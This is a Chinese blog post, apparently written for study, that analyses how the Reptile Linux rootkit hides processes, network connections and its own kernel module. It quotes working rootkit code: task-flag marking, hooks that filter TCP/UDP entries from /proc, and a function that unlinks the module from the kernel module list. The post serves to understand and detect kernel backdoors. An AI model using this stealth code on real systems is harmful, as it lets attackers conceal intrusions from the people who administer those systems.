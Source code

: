 ```yaml
---
layout: post
title:  Linux Rootkit初窥(三)Rootkit隐藏
description: Linux Rootkit初窥(三)Rootkit隐藏
summary: Linux Rootkit初窥(三)Rootkit隐藏
tags: security
minute: 15
---
```


## 背景

> 一个良好的 Rootkit 除了有敲门，Hook以外，隐藏网络/进程/内核模块也是十分重要的，同时对于我们分析是否存在内核后门，也非常重要

以下部分代码基于 [Reptile](https://github.com/f0rb1dd3n/Reptile)

## proc 隐藏

> [代码地址](https://github.com/f0rb1dd3n/Reptile/blob/master/kernel/proc.c)

### 判断可见

首先是入口地址，判断进程是否可见，再调用 `flag_tasks` 设置

```C
void hide_proc(pid_t pid)
{
	if (is_proc_invisible(pid))
		flag_tasks(pid, 0);
	else
		flag_tasks(pid, 1);
}
```

先看一下 `is_proc_invisible` 函数

```C
int is_proc_invisible(pid_t pid)
{
	struct task_struct *task;
	int ret = 0;

	if (!pid)
		return ret;

	task = find_task(pid);
	if (!task)
		return ret;

	if (is_task_invisible(task))
		ret = 1;

	put_task_struct(task);
	return ret;
}

...

#define FLAG 0x80000000

static inline int is_task_invisible(struct task_struct *task)
{
	return task->flags & FLAG;
}
```

主要判断 `task->flags` 一切围绕着这个展开，包括下面的进程隐藏。我对于 linux 内核并不熟悉，搜索学习了一下如下：

### 进程标记

`task_struct` 这个结构体，在 `linux/sched.h` 下，[elixir](https://elixir.bootlin.com/linux/latest/source/include/linux/sched.h#L728)

对应的 `flags` 标识位如下所示:

```C
/*
 * Per process flags
 */
#define PF_VCPU			0x00000001	/* I'm a virtual CPU */
#define PF_IDLE			0x00000002	/* I am an IDLE thread */
#define PF_EXITING		0x00000004	/* Getting shut down */
#define PF_POSTCOREDUMP		0x00000008	/* Coredumps should ignore this task */
#define PF_IO_WORKER		0x00000010	/* Task is an IO worker */
#define PF_WQ_WORKER		0x00000020	/* I'm a workqueue worker */
#define PF_FORKNOEXEC		0x00000040	/* Forked but didn't exec */
#define PF_MCE_PROCESS		0x00000080      /* Process policy on mce errors */
#define PF_SUPERPRIV		0x00000100	/* Used super-user privileges */
#define PF_DUMPCORE		0x00000200	/* Dumped core */
#define PF_SIGNALED		0x00000400	/* Killed by a signal */
#define PF_MEMALLOC		0x00000800	/* Allocating memory */
#define PF_NPROC_EXCEEDED	0x00001000	/* set_user() noticed that RLIMIT_NPROC was exceeded */
#define PF_USED_MATH		0x00002000	/* If unset the fpu must be initialized before use */
#define PF_NOFREEZE		0x00008000	/* This thread should not be frozen */
#define PF_FROZEN		0x00010000	/* Frozen for system suspend */
#define PF_KSWAPD		0x00020000	/* I am kswapd */
#define PF_MEMALLOC_NOFS	0x00040000	/* All allocation requests will inherit GFP_NOFS */
#define PF_MEMALLOC_NOIO	0x00080000	/* All allocation requests will inherit GFP_NOIO */
#define PF_LOCAL_THROTTLE	0x00100000	/* Throttle writes only against the bdi I write to,
						 * I am cleaning dirty pages from some other bdi. */
#define PF_KTHREAD		0x00200000	/* I am a kernel thread */
#define PF_RANDOMIZE		0x00400000	/* Randomize virtual address space */
#define PF_SWAPWRITE		0x00800000	/* Allowed to write to swap */
#define PF_NO_SETAFFINITY	0x04000000	/* Userland is not allowed to meddle with cpus_mask */
#define PF_MCE_EARLY		0x08000000      /* Early kill for mce process policy */
#define PF_MEMALLOC_PIN		0x10000000	/* Allocation context constrained to zones which allow long term pinning. */
#define PF_FREEZER_SKIP		0x40000000	/* Freezer should not count it as freezable */
#define PF_SUSPEND_TASK		0x80000000      /* This thread called freeze_processes() and should not be frozen */
```

在 `Reptile` 中，判断是否为 `PF_SUSPEND_TASK`. 在[其他项目](https://github.com/seal9055/cyber_attack_simulation/blob/7aff159017ce013fca6b59dd687e221251d57100/rootkit/rootkit.c)中，我们也能看到为 `0x10000000` 即 `PF_MEMALLOC_PIN`

## net 隐藏

[文件地址](https://github.com/f0rb1dd3n/Reptile/blob/1e17bc82ea8e4f9b4eaf15619ed6bcd283ad0e17/kernel/network.c)
[main.c](https://github.com/f0rb1dd3n/Reptile/blob/1e17bc82ea8e4f9b4eaf15619ed6bcd283ad0e17/kernel/main.c)

在 `main.c` 中代码如下：

```C
/* ------------------------ HIDE CONNECTIONS ------------------------- */

#ifdef CONFIG_HIDE_CONN

#include <net/inet_sock.h>
#include <linux/seq_file.h>
#include "network.h"

LIST_HEAD(hidden_conn_list);

KHOOK_EXT(int, tcp4_seq_show, struct seq_file *, void *);
static int khook_tcp4_seq_show(struct seq_file *seq, void *v)
{
	int ret;
	struct sock *sk = v;
	struct inet_sock *inet;
	struct hidden_conn *hc;
	unsigned int daddr;
	//unsigned short dport;

	if (v == SEQ_START_TOKEN) {
		goto origin;
	}

	inet = (struct inet_sock *)sk;

#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 33)
	daddr = inet->inet_daddr;
	//dport = inet->inet_dport;
#else
	daddr = inet->daddr;
	//dport = inet->dport;
#endif

	list_for_each_entry(hc, &hidden_conn_list, list)
	{
		if (hc->addr.sin_addr.s_addr == daddr /* && hc->addr.sin_port == dport */) {
			ret = 0;
			goto out;
		}
	}
origin:
	ret = KHOOK_ORIGIN(tcp4_seq_show, seq, v);
out:
	return ret;
}

KHOOK_EXT(int, udp4_seq_show, struct seq_file *, void *);
static int khook_udp4_seq_show(struct seq_file *seq, void *v)
{
	int ret;
	struct sock *sk = v;
	struct inet_sock *inet;
	struct hidden_conn *hc;
	unsigned int daddr;
	//unsigned short dport;

	if (v == SEQ_START_TOKEN) {
		goto origin;
	}

	inet = (struct inet_sock *)sk;

#if LINUX_VERSION_CODE >= KERNEL_VERSION(2, 6, 33)
	daddr = inet->inet_daddr;
	//dport = inet->inet_dport;
#else
	daddr = inet->daddr;
	//dport = inet->dport;
#endif

	list_for_each_entry(hc, &hidden_conn_list, list)
	{
		if (hc->addr.sin_addr.s_addr == daddr /* && hc->addr.sin_port == dport */) {
			ret = 0;
			goto out;
		}
	}
origin:
	ret = KHOOK_ORIGIN(udp4_seq_show, seq, v);
out:
	return ret;
}

#endif
```

简单来说就是 hook 掉 `tcp4_seq_show/udp4_seq_show` 这两个展示网络接口。在函数 `khook_inet_ioctl` 分支 4 获取来判断是否隐藏

### module 隐藏

首先 module 的获取是, `/proc/modules` 以及 `lsmod` ，在 `Reptile` 中是将自身从内核模块链表中删除。代码很简单，具体原理放后面再深入

```C
void hide(void)
{
	while (!mutex_trylock(&module_mutex))
		cpu_relax();
	mod_list = THIS_MODULE->list.prev;
	list_del(&THIS_MODULE->list);
	kfree(THIS_MODULE->sect_attrs);
	THIS_MODULE->sect_attrs = NULL;
	mutex_unlock(&module_mutex);
	
	hide_m = 1;
}
```

### Unfishied

> 稍微流水账的记录了一下... 因为急于看 cilium 的 tetragon...
